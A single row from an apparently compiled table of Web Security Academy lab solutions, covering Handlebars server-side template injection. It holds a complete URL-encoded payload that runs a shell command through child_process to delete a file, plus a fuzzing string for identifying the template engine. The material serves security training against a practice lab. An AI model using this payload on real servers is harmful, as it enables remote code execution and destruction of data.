 |88    |Server-side template injection in an unknown language with a documented exploit                                          |https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d|Search the web for "Handlebars server-side template injection". You should find a well-known exploit posted by @Zombiehelp54  You find this by fuzzing the message parameter with various strings. e.g.  ${{<%[%'"}}%\  The error message will return invalid syntax, which identifies the website is using handlebars                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |Practitioner, SSTI                          |